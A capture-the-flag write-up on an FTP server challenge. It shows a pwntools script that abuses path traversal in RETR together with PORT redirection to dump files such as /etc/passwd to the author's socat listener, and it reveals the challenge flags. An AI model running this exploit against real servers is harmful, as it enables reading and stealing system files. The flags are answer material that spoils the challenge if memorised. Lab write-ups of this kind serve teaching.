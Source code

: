 # [Medium] Factory Reset (300 points)

> In the haunted factory, which once was a masterpiece before the AI took over, lies many secrets. Can you find them all to gain control over the havoc?
>
> Note: the target system is running on 10.6.0.100
>
> Author information: This challenge is developed by [Ankit@DeloitteNL](https://in.linkedin.com/in/ankit-parashar-205771160).

The challenge provides an OpenVPN configuration file which we can use to connect to the vulnerable system and an interface to launch backend systems.

During the CTF, I followed the below writeups/blogs.

https://hackerone.com/reports/694141

https://arinerron.com/blog/posts/6

### No Limits [150 points]

> We are bound to our limits, the AI wasn't. Can you go beyond the limit searching for the stolen data?

- Exploit FTP using the writeups above
- Setup tcp listener: `socat - TCP-LISTEN:9999,fork,reuseaddr`.
- Dump all important linux files using a wordlist and the script below. `list.txt` should contain the files that you'd like to get contents off, for example: `/etc/passwd` or `/proc/self/cwd`, etc.
- To retrive files, use `RETR` and to list directories use `MLST` or similar.

```py
from pwn import *
import os

r = remote('10.6.0.100', '21')

r.recv()

with open('list.txt') as file:
  files = [line.strip() for line in file.readlines()]

for i in files:
  r.sendline(b'PORT 10,6,0,10,1,1002')
  r.sendline(f'RETR ../../../../../../{i}'.encode())
  sleep(2)
  value = r.recv().decode()
  print(i)
  print(value)
  
  if 'connection opened' in value:
    sleep(2)
    io = remote('127.0.0.1', 1258)
    io.sendline(f'\n\n{i}\n\n'.encode())
    io.close()

r.interactive()
```

The first flag is present in `/etc/motd`.

**Flag:** `CTF{F0rtREss_Br3@c#3d}`

### Safe Zone [75 points]

> There are no roads. The only way you can walk is to break the wall..... and gain access.

Looking at the bash history, we can see figure out that the second flag is present in /var/backups/data/.

```bash
...
ls -la
uftpd -o ftp=21
cd /var
ls
cd backups
ls
ls -la
mkdir data
exit
...
```

**Flag:** `CTF{Th3_Inc3pt0r}`

### Master [75 points]

> Dig little deeper to take the control back from the AI. You will find out what you need only when you know who you are.

Unsolved.

Even though I took a careful look at all the dumped files, I couldn't find anything out of the ordinary. This challenge remains unsolved and I will have to take a look at writeups by other participants.
